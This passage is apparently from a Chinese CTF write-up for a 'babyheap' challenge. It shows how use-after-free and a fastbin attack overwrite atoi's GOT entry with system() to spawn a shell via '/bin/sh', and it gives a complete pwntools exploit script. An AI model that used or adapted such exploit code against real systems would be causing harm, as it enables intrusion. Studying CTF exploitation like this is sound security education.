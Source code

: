 下一步修改 atoi 的 got 表为 system 函数的地址，**调用 edit 函数时，会向 buf 中写入数据**（因为已经修改完了 buf 的指针值），这里就可以在 atoi 的 got 表上写下 system 函数的地址

```
system_addr=libc_base+libc.symbols['system']
edit(p64(system_addr))
```

[![](https://i.imgur.com/uC5cHdu.png)](https://i.imgur.com/uC5cHdu.png)

### <a class="reference-link" name="getshell"></a>getshell

调用上面的 edit 函数完成后，会回到 main 函数中，因为这里的 atoi 被我们改成了 system ，在调用 read 函数时，只要我们输入 “/bin/sh”，**就会作为参数传入 system 函数**，触发 system 函数就进行 getshell。

```
r.sendline('/bin/sh')
```

[![](https://i.imgur.com/1ybVqK0.png)](https://i.imgur.com/1ybVqK0.png)

至此，利用完毕

附上最后的 exp

```
from pwn import *
#r=remote('51.68.189.144',31005)
r = process("./babyheap")

#context(log_level='debug')
libc=ELF('./libc.so.6')
#libc =ELF('/lib/x86_64-linux-gnu/libc.so.6')

r.readuntil('&gt;')
def create():
    r.sendline('1')
    r.readuntil('&gt;')
def dele():
    r.sendline('4')
    r.readuntil('&gt;')    
def edit(a):
    r.sendline('2')
    r.readuntil('Content?')
    r.send(a)
    r.readuntil('&gt;')
def gift(a):
    r.sendline('1337')
    r.readuntil('Fill ')
    r.send(a)
    r.readuntil('&gt; ')
def show():
    r.sendline('2')
    r.readuntil(': ')

#+------------------------use after free---------------------------+#
create()
dele()
edit(p64(0x602098))
create()
#+------------------------fastbins attack--------------------------+#
gift(p64(2)*6+p64(0x602060))
libc_base=u64(r.readuntil('n')[:-1].ljust(8,chr(0)))-libc.symbols['atoi']
print "libc_base:"+str(libc_base)
#+------------------------overwrite the got table------------------+#
system_addr=libc_base+libc.symbols['system']
edit(p64(system_addr))
#print hex(system_addr)
```